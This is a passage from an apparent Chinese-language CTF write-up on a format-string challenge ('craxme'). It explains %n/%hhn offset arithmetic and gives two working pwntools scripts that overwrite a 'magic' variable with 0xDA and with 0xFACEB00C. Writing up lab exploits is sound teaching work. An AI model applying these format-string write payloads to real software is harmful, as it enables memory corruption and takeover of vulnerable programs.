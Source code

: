 >   - 例如第一次写入的是`%30c%3$n`，对第四个参数写入30。后面继续写的值就要减掉30，假设后续要再对第5个参数写100，我就要写入100-30=70
>
>     最后生成的字符串就是`%30c%3$n%70c%4$n`

好了，回到这道题

![image-20220821155307071](/assets/img/2022/image-20220821155307071.png)

没有开启PIE

![image-20220821155330670](/assets/img/2022/image-20220821155330670.png)

要写两种利用，修改magic为0XDA以及修改为0xFACEB00C，分别是写1个字节和写4个字节

断在print处，可以看到print的字符串是第8个参数

![image-20220821155637256](/assets/img/2022/image-20220821155637256.png)

对应的就是%7$

验证没错：![image-20220821160054037](/assets/img/2022/image-20220821160054037.png)

现在任务就是修改magic为0xda

0xffffd11c处填入magic的地址0x804A038，接上格式化字符串`%214c%7hhn`。 0xda-4=214，减去4是因为写上0x804A038已经有了4个字节。hhn是修改一个字节

exp:

```python
from pwn import *


r = process('./craxme')
# raw_input()

r.recvuntil('Give me magic :')
magic = 0x804A038

p = p32(magic)
p += '%214c%7$hhn'
r.sendline(p)

r.interactive()
```

然后是修改4个字节

exp:

```python
from pwn import *


r = process('./craxme')

r.recvuntil('Give me magic :')
magic = 0x804A038 # 0xFACEB00C
p = p32(magic)
p += p32(magic+1)
p += p32(magic+2)
p += p32(magic+3)
p += '%252c%7$hhn' # 修改第一个字节,0xc-16+256, 前面有16个字节(4个目标地址)所以要减去16, 0xc-16是负数了，再加上256造成环绕
p += '%164c%8$hhn' # 修改第二个字节，0xb0-0xc, 减去0xc是因为前面总共是0xc个字节
p += '%30c%9$hhn' # 修改第三个字节，0xce-0xbo
p += '%44c%10$hhn' # 修改第四个字节，0xfa-0xce
r.sendline(p)


r.interactive()
```
